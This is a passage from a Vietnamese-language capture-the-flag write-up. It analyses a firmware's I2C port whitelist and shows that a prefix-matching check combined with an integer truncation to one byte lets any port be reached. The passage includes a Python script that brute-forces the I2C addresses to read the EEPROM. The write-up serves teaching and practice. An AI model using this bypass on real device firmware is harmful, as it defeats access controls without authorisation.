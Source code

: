 Trên đây là toàn bộ source code của firmware, ta có thể thấy chương trình cho read và write ở các port, nhưng địa chỉ các port bị filter nên chỉ có thể tương tác với các port sau:
```
  "101",  // Thermometers (4x).
  "108",  // Atmospheric pressure sensor.
  "110",  // Light sensor A.
  "111",  // Light sensor B.
  "119",  // Humidity sensor.
```

#### Is port allowed? Are u sure it is allowed?

Tuy nhìn sơ thì có vẻ không có gì để exploit, nhưng nếu kiểm tra kĩ hàm is_port_allowed và hàm str_to_uint8 thì sẽ thấy hai hàm này có vấn đề, đầu tiên là is_port_allowed:
```c
bool is_port_allowed(const char *port) {
  for(const char **allowed = ALLOWED_I2C; *allowed; allowed++) {
    const char *pa = *allowed;
    const char *pb = port;
    bool allowed = true;
    while (*pa && *pb) {
      if (*pa++ != *pb++) {
        allowed = false;
        break;
      }
    }
    if (allowed && *pa == '\0') {
      return true;
    }
  }
  return false;
}
```

#### Bruteforce để tìm EEPROM

Hàm check port nhưng vòng lặp while chỉ chạy khi thỏa cả 2 điều kiện là cả kí tự thuộc chuỗi port nằm trong whitelist lẫn kí tự thuộc chuỗi port do user nhập vào khác 0 (*pa && *pb), vậy ví dụ nếu ta nhập vào "10100000" thì port này vẫn valid bởi vì khi check hết chuỗi trong whitelist là "101" thì vòng lặp sẽ ngừng kiểm tra điều kiện.

Hàm str_to_uint8 thì như cái tên, convert port string thành unsigned char, vì port string thì nhập vào lớn, mà chỉ convert thành unsigned char, nên sẽ xảy ra lỗi type cast. Ví dụ khi nhập vào một port string là "111104" thì hex của nó sẽ là 0x1b200, nhưng vì bị type cast thành unsigned char nên sẽ là 0x00, như vậy ta có thể bruteforce hết 128 port của i2c:
```python
def eeprom(a = 111):
    res = 0
    for i in range(10000):
        cnt = len(str(i))
        tmp = a * (10**cnt) + i
        if (tmp & 0xff == 0 and len(str(tmp)) >= 6):
            res = tmp
            break
    for i in range(256):
        port = res+i
        io.sendlineafter(b'? ', b'r '+str(port).encode('utf-8')+b' 64')
        recv = io.recvuntil(b'-end\n', timeout = 1)
        if (b'error' not in recv and recv != b''):
            print('reading from port ' + str(port & 0xff) + ' ' + recv.decode('utf-8'))
        else:
            print('fail at '+str(port & 0xff))
```
